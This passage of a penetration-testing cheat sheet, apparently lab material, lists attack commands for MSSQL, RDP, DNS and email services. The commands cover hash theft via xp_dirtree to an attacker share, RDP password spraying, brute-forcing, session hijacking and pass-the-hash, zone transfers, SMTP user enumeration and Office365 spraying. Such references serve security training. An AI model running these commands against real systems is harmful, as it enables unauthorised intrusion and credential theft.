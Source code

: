 | `sqlcmd> EXEC master..xp_dirtree '\\10.10.110.17\share\'`                                                                  | Hash stealing using the `xp_dirtree` command in MSSQL.                                                        |
| `sqlcmd> EXEC master..xp_subdirs '\\10.10.110.17\share\'`                                                                  | Hash stealing using the `xp_subdirs` command in MSSQL.                                                        |
| `sqlcmd> SELECT srvname, isremote FROM sysservers`                                                                         | Identify linked servers in MSSQL.                                                                             |
| `sqlcmd> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]` | Identify the user and its privileges used for the remote connection in MSSQL.                                 |

---

### Attacking RDP

|**Command**|**Description**|
|---|---|
|`crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'`|Password spraying against the RDP service.|
|`hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp`|Brute-forcing the RDP service.|
|`rdesktop -u admin -p password123 192.168.2.143`|Connect to the RDP service using `rdesktop` in Linux.|
|`tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}`|Impersonate a user without its password.|
|`net start sessionhijack`|Execute the RDP session hijack.|
|`reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`|Enable "Restricted Admin Mode" on the target Windows host.|
|`xfreerdp /v:192.168.2.141 /u:admin /pth:A9FDFA038C4B75EBC76DC855DD74F0DA`|Use the Pass-The-Hash technique to login on the target host without a password.|

---

### Attacking DNS

|**Command**|**Description**|
|---|---|
|`dig AXFR @ns1.inlanefreight.htb inlanefreight.htb`|Perform an AXFR zone transfer attempt against a specific name server.|
|`subfinder -d inlanefreight.com -v`|Brute-forcing subdomains.|
|`host support.inlanefreight.com`|DNS lookup for the specified subdomain.|

---

### Attacking Email Services

|**Command**|**Description**|
|---|---|
|`host -t MX microsoft.com`|DNS lookup for mail servers for the specified domain.|
|`dig mx inlanefreight.com \| grep "MX" \| grep -v ";"`|DNS lookup for mail servers for the specified domain.|
|`host -t A mail1.inlanefreight.htb.`|DNS lookup of the IPv4 address for the specified subdomain.|
|`telnet 10.10.110.20 25`|Connect to the SMTP server.|
|`smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7`|SMTP user enumeration using the RCPT command against the specified host.|
|`python3 o365spray.py --validate --domain msplaintext.xyz`|Verify the usage of Office365 for the specified domain.|
|`python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz`|Enumerate existing users using Office365 on the specified domain.|
|`python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz`|Password spraying against a list of users that use Office365 for the specified domain.|
|`hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3`|Brute-forcing the POP3 service.|
|`swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Notification' --body 'Message' --server 10.10.11.213`|Testing the SMTP service for the open-relay vulnerability.|
